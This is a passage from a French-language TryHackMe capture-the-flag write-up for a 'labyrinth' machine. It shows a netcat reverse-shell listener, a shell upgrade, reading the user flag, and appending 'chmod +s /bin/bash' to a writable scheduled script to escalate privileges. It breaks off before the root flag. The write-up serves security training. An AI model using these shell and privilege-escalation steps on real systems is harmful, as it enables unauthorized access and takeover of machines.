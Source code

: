 On lance le shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.72.193.
Ncat: Connection from 10.10.72.193:51442.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
daemon@labyrinth:/opt/lampp/htdocs$ ls /home
ls /home
anonftp  minotaur  user
daemon@labyrinth:/opt/lampp/htdocs$ ls /home/user	
ls /home/user
flag.txt
cat /home/user/flag.txt
fla9{5upeR_secr37_uSEr_flaG}
```

On obtient un shell.  
Dans /home/user on trouve un fichier flag.txt; on le lit et on a le flag.  
Le flag est : fla9{5upeR_secr37_uSEr_flaG}   

**What is the root flag?**

```bash
daemon@labyrinth:/opt/lampp/htdocs$ ls /
ls /
bin    home	       lost+found  reminders  srv	usr
boot   initrd.img      media	   root       swapfile	var
cdrom  initrd.img.old  mnt	   run	      sys	vmlinuz
dev    lib	       opt	   sbin       timers	vmlinuz.old
etc    lib64	       proc	   snap       tmp

daemon@labyrinth:/opt/lampp/htdocs$ cd /timers
cd /timers
daemon@labyrinth:/timers$ ls
ls
timer.sh
daemon@labyrinth:/timers$ cat timer.sh

cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt

daemon@labyrinth:/timers$ echo 'chmod +s /bin/bash' >> timer.sh
echo 'chmod +s /bin/bash' >> timer.sh
```
